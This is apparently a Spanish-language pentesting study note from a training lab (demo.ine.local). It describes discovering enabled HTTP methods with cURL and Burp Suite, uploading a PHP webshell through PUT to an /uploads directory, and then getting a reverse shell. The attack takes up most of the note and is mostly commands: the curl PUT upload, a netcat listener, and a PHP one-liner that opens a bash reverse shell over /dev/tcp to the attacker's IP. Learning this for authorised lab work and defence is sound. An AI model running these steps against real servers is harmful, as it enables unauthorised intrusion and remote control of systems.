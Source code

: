 # cURL y Testing de Aplicaciones Web

---

## 1. Comandos básicos con cURL

```bash
curl -v http://dominio.com
```
- `-v` → modo verbose (muestra detalles de la petición/respuesta).  

```bash
curl -I http://dominio.com
```
- `-I` → solo devuelve **cabeceras de respuesta**.  

```bash
curl -v -I http://dominio.com
```
- Combina verbose + cabeceras.  

```bash
curl -v -X GET http://dominio.com
curl -v -X PUT http://dominio.com
curl -X OPTIONS demo.ine.local -v
(mira opciones del servidor de manera más rápida que burp)
```
- `-X` → permite elegir el método HTTP a usar (GET, POST, PUT, DELETE, OPTIONS…).  

---

## 2. Testing con BurpSuite
1. Intercepta una petición normal (ejemplo: `GET /uploads`).  
2. Cambia el método manualmente en la parte superior:  
   - De: `GET /uploads HTTP/1.1`  
   - A: `OPTIONS /uploads HTTP/1.1`  
3. Esto permite descubrir métodos habilitados en ese endpoint (ej: `PUT, DELETE, PROPFIND`).  

---

## 3. Subir archivos con cURL
Si `PUT` está habilitado en `/uploads/`:
```bash
curl -v -X PUT http://<IP>/uploads/shell.php --upload-file /usr/share/webshells/php/simple-backdoor.php
```

- Esto intenta subir la **webshell PHP** al directorio `/uploads`.  
- Luego accede vía navegador:  
  ```
  http://<IP>/uploads/shell.php
  ```

---

## 4. Reverse Shell con la webshell
1. En tu máquina atacante, escucha con netcat:
```bash
nc -lvp 4444
```

2. Accede a la webshell y ejecuta un comando reverse shell, por ejemplo en PHP:
```php
<?php system("bash -c 'bash -i >& /dev/tcp/<IP_atacante>/4444 0>&1'"); ?>
```

3. Cuando visites la URL de la shell, la conexión se abrirá hacia tu netcat:
```
http://<IP>/uploads/shell.php
```

---

## 5. Flujo completo
1. Descubrir métodos disponibles (Burp o cURL con `-X OPTIONS`).  
2. Ver si `PUT` está permitido en `/uploads`.  
3. Subir archivo PHP malicioso con cURL.  
4. Acceder al archivo desde el navegador.  
5. Ejecutar payload de reverse shell.  
6. Recibir conexión en netcat (`nc -lvp 4444`).  

---

## Resumen rápido de comandos
```bash
curl -v http://dominio.com
curl -I http://dominio.com
curl -v -X OPTIONS http://dominio.com/uploads
curl -v -X PUT http://IP/uploads/shell.php --upload-file shell.php
nc -lvp 4444
```
